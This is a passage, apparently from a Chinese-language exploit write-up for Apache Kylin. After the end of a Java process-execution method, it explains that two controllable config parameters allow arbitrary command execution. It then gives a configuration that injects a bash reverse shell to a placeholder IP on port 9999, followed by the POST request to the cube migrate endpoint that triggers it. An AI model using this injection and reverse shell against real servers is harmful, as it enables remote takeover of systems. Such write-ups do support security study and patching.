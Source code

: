 ```
        }

        try {
            int exitCode = proc.waitFor();
            return Pair.newPair(exitCode, result.toString());
        } catch (InterruptedException e) {
            Thread.currentThread().interrupt();
            throw new IOException(e);
        }
    }

}
```

由此可以得出我们可以通过这两个可控的参数，执行任意我们需要的命令，例如反弹一个shell，设置的配置为

```
kylin.tool.auto-migrate-cube.enabled=true
kylin.tool.auto-migrate-cube.src-config=echo;bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
kylin.tool.auto-migrate-cube.dest-config=shell
```

![](images/202205251559000.png)

再去发送`POST`请求 `/kylin/api/cubes/kylin_sales_cube/learn_kylin/migrate`
